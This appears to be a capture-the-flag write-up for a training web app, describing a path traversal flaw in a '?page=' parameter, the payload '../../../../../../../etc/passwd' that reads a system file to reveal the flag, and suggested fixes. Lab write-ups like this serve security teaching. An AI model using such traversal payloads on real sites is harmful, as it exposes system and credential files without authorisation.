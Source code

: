 # Unrestricted Path Traversal

## Vulnerability

The page content change based on the `?page=` query parameter.

Going up into the file system then reading a system file display the flag.

We get the flag by visiting the URL: [`?page=../../../../../../../etc/passwd`](http://darkly/index.php?page=../../../../../../../etc/passwd)
```html
Congratulaton!! The flag is : ...
```

## Possible Fix

- Restrict the paths that can be accessed (with conditions in the code).
- Add strict permissions for the user executing `nginx` and the user executing `php`.

